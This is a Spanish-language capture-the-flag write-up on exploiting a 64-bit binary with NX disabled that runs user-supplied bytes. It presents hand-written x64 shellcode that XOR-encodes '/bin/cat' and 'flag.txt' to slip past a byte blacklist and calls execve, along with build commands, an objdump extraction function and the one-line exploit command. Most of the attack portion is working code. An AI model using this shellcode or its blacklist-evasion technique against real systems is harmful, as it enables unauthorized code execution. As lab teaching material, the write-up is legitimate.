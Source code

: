 ## Analisis del Binario
Tenemos un binario ejecutable de 64 bits con el NX desabilitado.

![foto de el binario](/images/checksec.png)

Al ejecutar el binario nos recibe con el siguiente mensaje, donde dependiendo nuestra respuesta se acontece un segmentation fault.

```
Hey, just because I am hungry doesn't mean I'll execute everything
asd
Hehe, told you... won't accept everything
```

## Analisis del Codigo

Al analizar el codigo vemos que los bytes que introduzcamos son interpretados pudiendo ejecutar instrucciones, sin embargo tambien 
vemos presente una blacklist.

## Explotacion

# Creacion del shellcode
Existen diversas herramientas en la web que nos permiten crear shellcodes, un ejemplo claro tenemos msfvenom, sin embargo la serie de
limitantes que nos ocasiona la estructura del codigo hace dificil el uso de herramientas automatizadas, toca crearlo a mano.

# Instrucciones en ASM-x64

Como estamos en presencia de un binario de 64 bits, nuestro objetivo sera leer el archivo flag.txt, vamos a crearlo.

```asm
section .text
    global _start

_start:
; ---- Limpiamos el registro RDX, nos servira de separador para las cadenas de texto ----
    mov rdx, r9
    xor rdx,r9

; ---- Insertamos la cadena '/bin/cat' ----
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b9e9cd091969dd0      ; '/bin/cat' cifrado con xor para bypassear la blacklist
    xor rbx,0xffffffffffffffff      ; desciframos '/bin/cat'
    push rbx
    mov rdi,rsp                     ; RDI -> '/bin/cat'

; ---- Insertamos la cadena 'flag.txt' ---
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b878bd1989e9399      ; 'flag.txt' cifrado
    xor rbx,0xffffffffffffffff      ; deciframos 'flag.txt'
    push rbx
    mov rsi,rsp                     ; RSI -> 'flag.txt'

; ---- Almacenamos las direcciones y preparamos la pila ---
    push rdx                        ; Null Byte
    push rsi
    push rdi
    mov rsi,rsp                     ; RSI -> ['/bin/cat','flag.txt']

; syscall: execve(const char *pathname, char *const _Nullable argv[],char *const _Nullable envp[]);
    ; rdi: pathname = '/bin/cat'
    ; rsi: args[] = ['/bin/cat flag.txt']
    ; rdx: envp = NULL

; --- Ejecutamos la llamada al sistema ---
    mov al, 60              ; RAX -> execv cuyo valor es [59]
    dec al
    syscall
```

*Nota: Puedes descargar el archivo sin comentarios [aqui](/exploit/shellcode.asm)*

Una vez listo, debemos ver si no contiene Null bytes y ninguno de los badchars (si seguiste la guia puedes seguir con normalidad).
Compilamos el binario con los siguientes comandos:

```bash
nasm -f elf64 <filename> -o shellcode.o
ld shellcode.o -o shell
```
Lo ejecutamos para comprobar que todo este bien...

# Generacion del shellcode
Gracias a la siguiente funcion que tengo programada en mi zshrc se puede exctraer el shell code con facilidad.

```bash
extractShell () {
	printf '\\x' && objdump -d $1 | grep "^ " | cut -f2 | xargs | tr -d " " | sed 's/.\{2\}/&\\x/g' | head -c-3
	echo
}
```
Lo copiamos y vamos a la explotacion.

*Puedes agregarlo a tu zsh en la ultima linea*

# Explotacion
Una vez tengamos el shellcode debemos explotar el binario.

```bash
echo -n <shellcode> | ./execute
```

![flag](images/flag.png)

Y listo...
*Nota: [Aqui](/exploit/exploit.py) adjunto una herramienta para la explotacion automatizada*





